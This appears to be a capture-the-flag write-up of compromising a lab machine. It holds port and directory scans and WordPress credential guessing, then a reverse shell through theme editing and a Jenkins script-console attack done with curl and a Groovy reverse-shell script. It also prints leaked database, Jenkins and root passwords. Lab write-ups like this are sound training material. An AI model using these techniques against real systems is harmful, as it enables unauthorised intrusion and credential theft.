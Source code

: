 # Recon

## Ports
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

## Web server
- Wordpress
- PHPMyAdmin

---- Scanning URL: http://10.10.115.245/ ----
==> DIRECTORY: http://10.10.115.245/blog/
+ http://10.10.115.245/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.115.245/javascript/
==> DIRECTORY: http://10.10.115.245/phpmyadmin/
+ http://10.10.115.245/server-status (CODE:403|SIZE:278)
==> DIRECTORY: http://10.10.115.245/wordpress/

---- Entering directory: http://10.10.115.245/blog/ ----
+ http://10.10.115.245/blog/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://10.10.115.245/blog/wp-admin/
==> DIRECTORY: http://10.10.115.245/blog/wp-content/
==> DIRECTORY: http://10.10.115.245/blog/wp-includes/
+ http://10.10.115.245/blog/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://10.10.115.245/javascript/ ----
==> DIRECTORY: http://10.10.115.245/javascript/jquery/

---- Entering directory: http://10.10.115.245/phpmyadmin/ ----
==> DIRECTORY: http://10.10.115.245/phpmyadmin/doc/
+ http://10.10.115.245/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)
+ http://10.10.115.245/phpmyadmin/index.php (CODE:200|SIZE:10525)
==> DIRECTORY: http://10.10.115.245/phpmyadmin/js/
+ http://10.10.115.245/phpmyadmin/libraries (CODE:403|SIZE:278)
==> DIRECTORY: http://10.10.115.245/phpmyadmin/locale/
+ http://10.10.115.245/phpmyadmin/phpinfo.php (CODE:200|SIZE:10527)

### Wordpress

Version 5.4.2
Found plugins:
- wp-emoji-release.min.js?ver=5.4.2

80/tcp open  http
| http-wordpress-users: 
| Username found: admin

Using 
[!] Valid Combinations Found:
 | **Username: admin, Password: my2boys**

[+] twentynineteen
 | Location: http://10.10.115.245/blog/wp-content/themes/twentynineteen/
 | Last Updated: 2020-12-22T00:00:00.000Z
 | Readme: http://10.10.115.245/blog/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 1.9

[+] twentyseventeen
 | Location: http://10.10.115.245/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://10.10.115.245/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.5

[+] twentytwenty
 | Location: http://10.10.115.245/blog/wp-content/themes/twentytwenty/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://10.10.115.245/blog/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.6


### PHPMyAdmin
Version: 4.6.6


# Exploit

## Things that didn't work
- Mounting root or aubreanna with **runc**
- Escaping **docker** container (Jenkins)
- **Stealing credentials** from Jenkins (were already known)
- Trying already **known credentials on logins**
- PrivEsc with **ctr (containerd)**

## Wordpress RCE
Log in to wordpress
**Username: admin, Password: my2boys**

Manipulate theme:
https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#plugin-rce

Paste reverse_shell and get access

![Reverse shell](./img/reverse_shell.png)

## Fetching DB login data
With www-data user, accessing wp-config.php:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```   
![Gaining DB access](./img/db_access.png)

## Gaining user access for user `aubreanna`

`su aubreanna` requires password

`sudo -l` for www-data requires password

There is a jenkins (2.250) server running under the aubreanna user:  
`aubrean+  1537  1504  1 16:23 ?        00:00:25 java -Duser.home=/var/jenkins_ho`

With a custom script, we can fuzz the password and get a crumb token
The credentials are `admin:spongebob` (i just guessed that the user was admin)
![Fuzzing jenkins](./img/fuzz_jenkins.png)

```
COOKIEJAR=$(mktemp)
CRUMB=$(curl -u "admin:spongebob" --cookie-jar "$COOKIEJAR" "localhost:8080/crumbIssuer/api/xml?xpath=concat(//crumbRequestField,%22:%22,//crumb)")
curl -X POST -u "admin:spongebob" --cookie "$COOKIEJAR" -H "$CRUMB" -d "script=$(cat ./reverse_shell_other.groovy)" "localhost:8080/script"
```

Unfortunately, Jenkins runs in a **VM** and we do not gain access to aubreanna:  
![Jenkins access](./img/jenkins_access.png)

We obtain a password hash for the jenkins admin:
`$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe`
(it's spongebob)

Spongebob doesn't work for `su aubreanna`, btw

*Okay, here I asked the THM discord for a hint:

```
KimSchulzheute um 13:43 Uhr
maybe check files in the same place as where you might have found an important txt file on the wp related shell
to put it differently: you are almost at the end :slight_smile:
```
*

And indeed, running `find -type f -name *.txt 2>/dev/null` shows us that there is a */opt/note.txt* with the content:
```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```


Done.